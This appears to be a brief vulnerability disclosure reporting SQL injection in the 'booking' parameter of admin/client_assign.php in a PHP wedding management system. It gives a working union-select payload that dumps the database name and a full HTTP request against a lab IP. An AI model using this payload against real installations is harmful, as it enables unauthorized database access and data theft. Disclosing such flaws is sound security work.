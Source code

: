 # WeddingManagement System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\client_assign.php

Vulnerability location: /Wedding-Management/admin/client_assign.php?booking=, booking

[+] Payload: booking=-31%20union%20select%201,2,3,4,5,database(),7,8--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/client_assign.php?booking=-31%20union%20select%201,2,3,4,5,database(),7,8--+&user_id=31 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167982690-aea66178-cca8-4304-b075-4314098692d6.png)

![image](https://user-images.githubusercontent.com/54017627/167982624-601f0505-da3e-433b-a655-3c1cecaecb2e.png)
